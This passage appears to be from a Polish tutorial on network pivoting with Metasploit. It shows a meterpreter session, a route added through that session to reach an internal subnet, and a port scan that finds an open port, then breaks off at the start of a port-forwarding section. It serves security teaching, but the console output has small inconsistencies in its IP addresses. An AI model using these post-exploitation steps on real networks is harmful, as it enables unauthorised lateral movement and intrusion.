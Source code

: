 ```
msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > arp

ARP cache
=========

    IP address     MAC address        Interface
    ----------     -----------
        ---------
    172.31.10.1    02:42:1a:3b:48:7d
    172.31.10.25   02:42:ac:1f:0a:19
    172.31.10.194  02:42:ac:1f:0a:c2
    172.31.20.1    02:42:4e:b9:1f:b9
    172.31.20.10   02:42:ac:1f:14:0a
    172.31.20.194  02:42:ac:1f:14:c2

meterpreter > background
[*] Backgrounding session 1...
```
Schowajmy sesje w tło (background) i stwórzmy routing dla sieci _172.31.20.0/24_ (1 oznacza nr. sesji):
{: .text-justify}
```console
msf6 exploit(multi/script/web_delivery) > route add 172.31.20.0/24 1
[*] Route added
msf6 exploit(multi/script/web_delivery) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.31.20.0        255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
msf6 exploit(multi/script/web_delivery) >
```
Teraz możemy skanować serwery z naszego komputera, które widzi tylko serwer _172.16.1.167_:
{: .text-justify}
<div class="notice--primary" markdown="1">
```console
use  auxiliary/scanner/portscan/tcp
set rhosts 172.31.20.194
run -j
```
```console
msf6 auxiliary(scanner/portscan/tcp) > use  auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 172.31.20.194
rhosts => 172.31.200.194
msf6 auxiliary(scanner/portscan/tcp) > run -j
[*] Auxiliary module running as background job 2.
msf6 auxiliary(scanner/portscan/tcp) >
[+] 172.31.20.194:        - 172.31.20.194:24 - TCP OPEN
```
</div>
Jak widzimy, jest otwarty port _24_ na ip _172.31.20.194_.
{: .text-justify}
# Pivoting
Teraz możemy przekierować cały ruch z _172.31.20.194_, a dokładniej jeden port na naszą lokalną maszynę:
{: .text-justify}